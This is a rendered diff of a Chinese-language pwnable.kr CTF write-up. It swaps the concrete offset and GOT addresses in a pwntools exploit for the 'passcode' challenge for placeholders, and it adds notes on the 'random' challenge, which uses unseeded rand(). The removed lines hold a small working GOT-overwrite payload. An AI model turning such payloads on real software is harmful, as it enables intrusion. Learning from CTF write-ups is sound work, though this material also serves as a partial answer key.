

Before and after one commit to Ada-Church-Closure/pwd-writeup, a Markdown page: pwnable/note.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/pwnable/note.md
+++ b/pwnable/note.md
@@ -750,9 +750,9 @@ uid=1001(passcode) gid=1001(passcode) groups=1001(passcode)
 ```py
 from pwn import *
 
-buf =b"A" * 96      # offset to ???
-buf += p32(0x0804c014)  # passcode1 pointing to ???
-buf += '0x080492c3'		# the got entry of ???
+buf = b"A" * ??     # offset to ???
+buf += p32(?????????)  # passcode1 pointing to ???
+buf += '?????????'		# the got entry of ???
 
 print(buf) # 注意python3严格区分str和bytes,这个程序用py2处理.
 ```
@@ -761,3 +761,42 @@ print(buf) # 注意python3严格区分str和bytes,这个程序用py2处理.
 
 
 ### random
+
+看看这个C程序:
+
+```C
+#include <stdio.h>
+
+int main(){
+        unsigned int random;
+        random = rand();        // random value!
+        unsigned int key=0;
+
+        scanf("%d", &key);
+
+        if( (key ^ random) == 0xcafebabe ){
+                printf("Good!\n");
+                setregid(getegid(), getegid());
+                system("/bin/cat flag");
+                return 0;
+        }
+
+        printf("Wrong, maybe you should try 2^32 cases.\n");
+        return 0;
+}
+```
+
+拿到random之后做异或运算要等于某些值.
+
+直接在gdb内部临时计算某些值的大小:
+
+```py
+print/x 0x1234 ^ 0x5678    # 异或（输出十六进制）
+print/d 10 + 20            # 加法（十进制）
+print/t 0b1010 << 2        # 左移（二进制输出）
+```
+
+这个就非常简单.
+
+### input2
+
````
Also changed, not shown: other parts of pwnable/note.md (+72 -0 lines), pwnColledge/pwnColledgeNotes/CyberSecurity_Intro.md (deleted, +0 -137 lines), 1 other file.
